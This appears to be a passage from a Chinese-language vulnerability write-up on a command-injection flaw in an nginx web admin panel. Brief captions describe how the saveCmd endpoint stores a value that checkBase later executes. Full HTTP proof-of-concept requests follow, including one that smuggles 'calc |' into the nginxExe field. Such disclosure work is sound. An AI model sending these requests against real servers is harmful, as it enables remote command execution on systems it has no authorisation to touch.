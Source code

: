   
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYBCVyleLXQ9l580nR3HszvC4ThFIm4Jc0WA09CVDEaEIrc7CpL3FJgg/640?wx_fmt=png "")  
  
  
com.cym.controller.adminPage.ConfController#saveCmd  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYyIrIazcdB6JB7a8kOxOz6U7lLiaxMUUGMrcwwJtickzF0FtQcDbBticpg/640?wx_fmt=png "")  
  
  
将参数设置为配置信息  
  
```
GET /AdminPage/conf/checkBase HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/adminPage/remote
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYNaJVzQicz7GmuIY2LULciaM42FIfdiajamC9HNW4fbzPyBOIrCk6zxrJA/640?wx_fmt=png "")  
  
  
从配置信息中读取并加载，执行命令  
  
  
com.cym.controller.adminPage.ConfController#checkBase  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYDMiczzJU251jQq4LaoKQCFMzgoFjmUczXhkzPiccWvsgCozF1eTs9HxQ/640?wx_fmt=png "")  
  
‍  
  
**「命令执行七」**  
  
```
POST /AdminPage/conf/saveCmd HTTP/1.1
Host: 127.0.0.1:8080
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/adminPage/remote
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

nginxExe=calc%20%7C&nginxPath=/&nginxDir=/
```  
  